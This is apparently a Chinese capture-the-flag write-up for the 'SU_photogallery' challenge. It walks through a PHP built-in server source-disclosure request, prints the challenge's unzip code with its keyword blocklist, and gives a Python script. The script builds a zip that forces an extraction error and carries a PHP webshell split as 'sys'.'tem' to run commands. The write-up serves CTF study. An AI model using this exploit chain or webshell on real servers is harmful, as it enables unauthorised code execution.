



# 利用解压缩报错中断绕过WAF分析-先知社区

> **来源**: https://xz.aliyun.com/news/16642  
> **文章ID**: 16642

---

## SU\_photogallery

### php源码泄露漏洞饭

PHP5.5.45 -8.0.2任意⽂件读取，通过php -S开起的WEB服务器存在源码泄露漏洞，可以将PHP文件作为静态文件直接输出源码.

​

**成功版本**

漏洞介绍是PHP<=7.4.21版本，K8测试成功版本影响到8.x，以下随机测试的几个版本均成功读取到PHP源码

```
php 5.4.45  
php 5.5.38
php 7.3.4
php 8.0.2
```

**失败版本**

```
php 8.2.2-nts
```

### php启动内置web服务器

PHP从5.4开始，就提供了一个内置的web服务器，主要是用来做本地的开发用的。前提：php已经加入到本地电脑的环境变量中cd 项目目录

```
php -S localhost:8080
```

### 漏洞预测

看了一眼404这种的就是php -S临时开启的服务


### 漏洞利用

PHP<=7.4.21时通过php -S开起的WEB服务器存在源码泄露漏洞，可以将PHP文件作为静态文件直接输出源码  
记得要关掉Burp自动修改Content-Length的功能

poc如下

```
GET /phpinfo.php HTTP/1.1  //这里的phpinfo.php必须是存在的文件，也就是要读取源码的文件
Host: 192.168.xxx.xxx:xx
 
 
GET /a.aa HTTP/1.1 //这里的Kawakaze是不存在的文件
 
 
```



​

### 注意：要关掉Burp自动修改Content-Length的功能 Leak unzip.php源码poc如下

```
GET /unzip.php HTTP/1.1
Host: 1.95.157.235:10001


GET /a.123 HTTP/1.1


```

  
源代码如下

```
<?php
error_reporting(0);

function get_extension($filename){
    return pathinfo($filename, PATHINFO_EXTENSION);
}
function check_extension($filename,$path){
    $filePath = $path . DIRECTORY_SEPARATOR . $filename;
    
    if (is_file($filePath)) {
        $extension = strtolower(get_extension($filename));

        if (!in_array($extension, ['jpg', 'jpeg', 'png', 'gif'])) {
            if (!unlink($filePath)) {
                // echo "Fail to delete file: $filename
";
                return false;
                }
            else{
                // echo "This file format is not supported:$extension
";
                return false;
                }
    
        }
        else{
            return true;
            }
}
else{
    // echo "nofile";
    return false;
}
}
function file_rename ($path,$file){
    $randomName = md5(uniqid().rand(0, 99999)) . '.' . get_extension($file);
                $oldPath = $path . DIRECTORY_SEPARATOR . $file;
                $newPath = $path . DIRECTORY_SEPARATOR . $randomName;

                if (!rename($oldPath, $newPath)) {
                    unlink($path . DIRECTORY_SEPARATOR . $file);
                    // echo "Fail to rename file: $file
";
                    return false;
                }
                else{
                    return true;
                }
}

function move_file($path,$basePath){
    foreach (glob($path . DIRECTORY_SEPARATOR . '*') as $file) {
        $destination = $basePath . DIRECTORY_SEPARATOR . basename($file);
        if (!rename($file, $destination)){
            // echo "Fail to rename file: $file
";
            return false;
        }
      
    }
    return true;
}


function check_base($fileContent){
    $keywords = ['eval', 'base64', 'shell_exec', 'system', 'passthru', 'assert', 'flag', 'exec', 'phar', 'xml', 'DOCTYPE', 'iconv', 'zip', 'file', 'chr', 'hex2bin', 'dir', 'function', 'pcntl_exec', 'array', 'include', 'require', 'call_user_func', 'getallheaders', 'get_defined_vars','info'];
    $base64_keywords = [];
    foreach ($keywords as $keyword) {
        $base64_keywords[] = base64_encode($keyword);
    }
    foreach ($base64_keywords as $base64_keyword) {
        if (strpos($fileContent, $base64_keyword)!== false) {
            return true;

        }
        else{
           return false;

        }
    }
}

function check_content($zip){
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
            // echo "Checking file: $fileName
";
            $fileContent = $zip->getFromName($fileName);
            

            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!
";    
                return false;
            }
            else {
                continue;
            }
        }
    return true;
}

function unzip($zipname, $basePath) {
    $zip = new ZipArchive;

    if (!file_exists($zipname)) {
        // echo "Zip file does not exist";
        return "zip_not_found";
    }
    if (!$zip->open($zipname)) {
        // echo "Fail to open zip file";
        return "zip_open_failed";
    }
    if (!check_content($zip)) {
        return "malicious_content_detected";
    }
    $randomDir = 'tmp_'.md5(uniqid().rand(0, 99999));
    $path = $basePath . DIRECTORY_SEPARATOR . $randomDir;
    if (!mkdir($path, 0777, true)) {
        // echo "Fail to create directory";
        $zip->close();
        return "mkdir_failed";
    }
    if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (!check_extension($fileName, $path)) {
            // echo "Unsupported file extension";
            continue;
        }
        if (!file_rename($path, $fileName)) {
            // echo "File rename failed";
            continue;
        }
    }
    if (!move_file($path, $basePath)) {
        $zip->close();
        // echo "Fail to move file";
        return "move_failed";
    }
    rmdir($path);
    $zip->close();
    return true;
}


$uploadDir = __DIR__ . DIRECTORY_SEPARATOR . 'upload/suimages/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $uploadedFile = $_FILES['file'];
    $zipname = $uploadedFile['tmp_name'];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header("Location: index.html?status=success");
        exit();
    } else {
        header("Location: index.html?status=$result");
        exit();
    }
} else {
    header("Location: index.html?status=file_error");
    exit();
}
```

​

### 解压缩报错中断绕过WAF

通过代码可以看到防止了`../`目录穿越

```
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
```

关键点在这一步:如果解压缩失败就退出，但是如果我们可以构造出失败，这样后门就不会检查文件，并且解压成功的文件也都还在

```
 if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
```

对文件内容有waf，命令执行用拼接绕过关键字

```
            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!
";    
                return false;
            }
```

写python脚本绕过

```
import zipfile
import io

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('1.php', b'<?php $a = "sys";$b = "tem";$c = $a.$b;$c(\'cat /*\');')
    zf.writestr('A'*5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```

成功能访问到RCE  

